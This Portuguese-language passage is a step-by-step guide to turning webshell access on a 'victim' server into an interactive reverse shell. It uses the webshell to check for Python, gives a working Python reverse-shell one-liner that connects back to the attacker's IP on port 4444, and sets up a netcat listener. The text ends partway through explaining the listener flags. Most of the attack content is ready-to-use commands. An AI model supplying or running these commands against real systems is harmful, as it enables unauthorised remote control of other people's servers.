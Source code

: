 ### Passo 1 – Verificar se existe Python no sistema da vítima:

Acesse a webshell com:

```
http://$site/includes/cmd.php?cmd=whereis python
```

O comando `whereis python` mostra se e onde o Python está instalado. O resultado pode ser algo como:

```
python: /usr/bin/python2.7 /usr/bin/python
```

---

### Passo 2 – Preparar o **payload de reverse shell** em Python

Com base nisso, você pode usar o Python para fazer uma conexão reversa para seu IP:

```bash
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("SEU_IP",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty;
pty.spawn("sh")'
```

Esse script faz o seguinte:

- Cria um socket.
    
- Conecta ao seu IP na porta 4444.
    
- Redireciona stdin, stdout e stderr para esse socket.
    
- Usa `pty.spawn("sh")` para invocar um shell pseudo-interativo (melhor experiência).
    

---

### Passo 3 – Preparar o **ouvinte (listener)** na sua máquina

Antes de executar a reverse shell, você deve estar pronto para **receber a conexão** com o `netcat`:

```bash
nc -lvp 4444
```

- `-l`: listen (escutar)
    